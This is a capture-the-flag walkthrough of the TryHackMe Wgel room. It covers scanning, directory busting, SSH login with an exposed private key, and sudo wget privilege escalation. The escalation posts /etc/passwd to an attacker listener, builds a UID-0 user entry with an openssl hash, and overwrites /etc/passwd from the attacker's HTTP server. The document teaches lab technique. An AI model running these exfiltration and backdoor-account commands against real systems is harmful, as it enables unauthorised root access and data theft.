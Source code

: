 ```yaml
---
title: TryHackMe Wgel CTF [CHALLENGE]
date: 2024-03-13 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png
---
```


Can you exfiltrate the root flag? This room have network service pentesting, linux privilege escalation, directory busting bruteforcing.

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Nmap scan report for 10.10.120.57
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.48 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.120.57

80 → HTTP
- Apache httpd 2.4.18
- There is comment in the apache default web page source code that could perhaps a username.
- There is a user input in [/sitemap/contact](http://10.10.120.57/sitemap/contact.html)

22 → SSH
- Found id_rsa

## **Enumeration**
---
### 80 HTTP
We know that this contains the default apache web server page that shouts "It Works!". But let's not forget to inspect the source code to not miss things out!

![Desktop View](/assets/images/wgel-ctf/jessie.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.120.57 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.120.57/sitemap/]
/server-status        (Status: 403) [Size: 277]
```

Upon inspecting the `/sitemap` webpage, we discovered that it accepts user input. However, after conducting basic [command injection](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) and [directory traversal](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) tests, it did not return any errors, which might indicate that the webpage is vulnerable to exploitation.


![Desktop View](/assets/images/wgel-ctf/contact.png){: width="972" height="589" }

Let us try doing some file busting and see if we can find something interesting.

```bash
gobuster dir -u http://10.10.120.57/sitemap/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30 
```

```text
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 21080]
/contact.html         (Status: 200) [Size: 10346]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 21080]
/about.html           (Status: 200) [Size: 12232]
/.html                (Status: 403) [Size: 277]
/blog.html            (Status: 200) [Size: 12745]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.120.57/sitemap/.ssh/]
/.DS_Store            (Status: 200) [Size: 14340]
/.htgroup             (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/work.html            (Status: 200) [Size: 11428]
/.htc                 (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
```
So, why do we have an exposed private key in the first place?

![Desktop View](/assets/images/wgel-ctf/privkey.png){: width="972" height="589" }

Question is, can this key be used by the username we just found from the source code?

## **Gaining an Initial Foothold**

```text
chmod 600 id_rsa
ssh -i id_rsa jessie@$IP
```
SSH private key file needs to be set with chmod 600 permissions to ensure that only the file owner can access the key while complying with SSH client security policies. Otherwise, it won't work.

![Desktop View](/assets/images/wgel-ctf/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/wgel-ctf/sudo.png){: width="972" height="589" }

The `wget` command is a versatile command-line tool that allows users to download one or several files at once from the internet or a server, utilizing various protocols such as HTTP, HTTPS, and FTP.

This implies that it is possible to download and modify the `/etc/passwd` file to insert a new user, thereby elevating our access privileges.

To start transferring the /etc/passwd to our attacking machine, we need to setup a typical netcat listener.

```bash
nc -lnvp <PORT> > <FILNAME>
```
![Desktop View](/assets/images/wgel-ctf/netcat.png){: width="972" height="589" }

On the target machine

```
sudo /usr/bin/wget --post-file=/etc/passwd <ATTACK_IP>:<PORT>
```
The --post-file flag enables wget to send the content of any file.

![Desktop View](/assets/images/wgel-ctf/wget.png){: width="972" height="589" }

From your attacking machine, you can view the extracted file and remove the http headers.

Once removed, generate a new hash password for a new root user in local machine.

```bash
openssl passwd -1 -salt thm password1
```

```bash
$1$thm$lQSjJL4ZZezfQn9UAZSqd1
```

Paste the generated hash to passwd.txt

```bash
echo 'jirho:$1$thm$lQSjJL4ZZezfQn9UAZSqd1:0:0:jirho:/home/jirho:/bin/bash' >> passwd.txt
```

From your attacker's machine working directory, setup a simple http server.

```bash
python3 -m http.server
```
On the target machine, get the file from your attacking machine

```bash
sudo /usr/bin/wget http://<ATTACK_MACHINE_IP>:<PORT>/passwd.txt -O /etc/passwd
```
Switch to the created user

```bash
su <USER>
password1 <-- enter the password you created from openssl
```
> Do not forget to find the FLAGS
{: .prompt-danger }

## **Materials/ References**

[Linux for Pentester: Wget Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

[Sudo Wget Privilege Escalation Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)

![Desktop View](/assets/images/wgel-ctf/root.png){: width="972" height="589" }


## **Take Away Concepts**
- Never skip viewing the source code of the website regardless if it is the default Apache webpage, as it might contain hidden comments with user credentials.
- Conduct thorough directory and file busting. Who knows? Maybe someone left their SSH private keys unattended.
- Understand how wget works to escalate your privileges. Took me about an hour doing some trial and error on how to add a root user to the /etc/passwd using wget
- Username can be brute force using SSH.